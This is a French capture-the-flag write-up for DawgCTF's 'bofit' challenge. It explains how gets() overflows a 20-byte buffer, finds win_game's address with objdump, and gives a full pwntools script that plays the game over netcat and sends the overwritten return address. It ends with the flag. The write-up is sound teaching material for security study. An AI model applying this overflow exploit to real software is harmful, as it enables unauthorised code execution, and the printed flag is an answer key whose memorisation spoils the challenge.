

Le script utilisé pour l'exploit, le binaire et le code source sont dispo dans le même dossier que ce fichier.

On nous fournit une commande netcat. Quand on s'y connecte, on exécute un programme (bofit.c)

En regardant dans bofit.c on vous rapidement la fonction `win_game()`, qui envoie le flag.

```C
void win_game(){
	char buf[100];
	FILE* fptr = fopen("flag.txt", "r");
	fgets(buf, 100, fptr);
	printf("%s", buf);
}
```
En continuant de fouiller dans le code, on voit que la variable `char input` vaut 20, mais que l'on récupère via `gets`, qui prend l'entièreté de l'user input.

Le but est donc simple. Abuser de cette variable pour buffer overflow pour jump sur la fonction `win_game`.

Cependant, un premier soucis arrive. Il faut accéder à la partie pour BOF, et pour cela il faut d'abord jouer à l'équivalent de Twist en CLI. Quand ils envoient "BOF it!" il faut répondre "B", "Pull it!" ==> "P" et ainsi de suite pour chaque action. Quand on reçoit "Shout it!" on peut exploit pour BOF car c'est la partie qui utilise `input`

Première étape: récupérer l'adresse de `win_game`
Pour ça `objdump -D bofit` suffit.

`0000000000401256 <win_game>:` 

Maintenant qu'on l'a il faut l'adapter et l'ajouter à notre payload.

Une fois modifiée à l'aide de pwn.p64() en python, on obtient `V\x12@\x00\x00\x00\x00\x00`
Plus qu'à faire un script qui joue au jeu puis envoie le payload!

Pour ça j'ai utilisé Pwn Tools en python

```python
from pwn import *

nc = remote('umbccd.io',4100) # on se connecte
intro = nc.recv()
print(str(intro) + '\n')
nc.sendline('B') # on commence le jeu
recv = nc.recv()
print(str(recv) + '\n')
i=True
while(i==True): # on joue au jeu tant que l'on a pas exécuté le payload
    if(recv == b'BOF it!\n'):
        print(str(recv) + '\n')
        nc.sendline('B')
    elif(recv == b'Pull it!\n'):
        print(str(recv) + '\n')
        nc.sendline('P')
    elif(recv == b'Twist it!\n'):
        print(str(recv) + '\n')
        nc.sendline('T')
    elif(recv == b'Shout it!\n'): # on peut envoyer le payload
        print(str(recv) + '\n')
        exploit = (10*'V\x12@\x00\x00\x00\x00\x00') # ici j'envoie 10 fois l'adresse modifiée, qui me permettra de ne pas m'ennuyer avec le padding, mais il suffit de l'envoyer 8 fois
        nc.sendline(exploit)
        i=False
        nc.interactive() # on recoit le flag
    recv = nc.recv()
```

Flag: `DawgCTF{n3w_h1gh_sc0r3!!}`

